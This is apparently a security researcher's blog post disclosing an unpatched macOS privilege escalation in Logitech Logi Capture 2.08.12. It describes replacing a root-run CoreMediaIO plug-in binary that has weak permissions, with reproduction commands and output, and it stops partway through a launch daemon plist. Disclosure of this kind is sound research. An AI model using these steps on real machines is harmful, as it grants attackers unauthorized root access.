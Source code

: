 ```yaml
---
title:  "NO-CVE 0day: Logitech Logi Capture 2.08.12 macOS Local Privilege Escalation (CoreMediaIO)"
layout: post
categories: macOS
---
```


It was possible to achieve local privilege escalation (LPE) through the following high level abuse steps:
- Identification of weak POSIX directory and file permissions for two `CoreMediaIO` Plug-Ins
- Replacement of the `/Library/CoreMediaIO/Plug-Ins/DAL/LogiCapture.plugin/Contents/MacOS/Assistant` binary with a malicious Mach-O
- A reboot of the target macOS device



> NOTE: It may be possible for the same to be achieved through the additional Mach-O binary `/Library/CoreMediaIO/Plug-Ins/DAL/LogiCapture.plugin/Contents/MacOS/LogiCapture` however this was not investigated.

## Steps To Reproduce:

### Download and install Logi Capture

Logitech Capture can be downloaded directly from Logitech's website:
- [Logitech Capture](https://www.logitech.com/en-gb/software/capture.html)
- [Logitech Capture Direct Download](https://download01.logi.com/web/ftp/pub/techsupport/capture/Capture_2.08.12.zip)

The installation can be confirmed with the following command:
```bash
10:44:43-testmac@mpro:~/Desktop/LOGITECH/LOGI_CAPTURE/CoreMediaIO_LPE$ lsappinfo | grep "Logi Capture" -A 6
46) "Logi Capture" ASN:0x0-0x69069: 
    bundleID="com.logitech.logicapture"
    bundle path="/Applications/Logi Capture.app"
    executable path="/Applications/Logi Capture.app/Contents/MacOS/Logi Capture"
    pid = 1378 type="Foreground" flavor=3 Version="2.08.12" fileType="APPL" creator="????" Arch=x86_64 
    parentASN="Spotlight" ASN:0x1-0x2ff: 
    launch time =  2023/12/28 10:24:10 ( 20 minutes, 36.2109 seconds ago )
    checkin time = 2023/12/28 10:24:10 ( 20 minutes, 36.016 seconds ago )
    launch to checkin time: 0.194869 seconds
```

### Confirm the use of the vulnerable directory in the LaunchDaemons plist
Confirmation that `Logi Capture` makes use of `/Library/CoreMediaIO/Plug-Ins/DAL/LogiCapture.plugin/Contents/MacOS/Assistant` for the Launch Daemon in the `com.SplitMediaLabs.LogiCapture.Assistant.plist` Launch Daemons configuration plist file.
```xml
13:50:01-testmac@mpro:~/Desktop/LOGITECH/LOGI_CAPTURE/CoreMediaIO_LPE$ plutil -convert xml1 /Library/LaunchDaemons/com.SplitMediaLabs.LogiCapture.Assistant.plist -o com.SplitMediaLabs.LogiCapture.Assistant.plist
13:50:04-testmac@mpro:~/Desktop/LOGITECH/LOGI_CAPTURE/CoreMediaIO_LPE$ cat com.SplitMediaLabs.LogiCapture.Assistant.plist 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
        <key>Label</key>
        <string>com.SplitMediaLabs.LogiCapture.Assistant</string>
        <key>MachServices</key>
        <dict>
```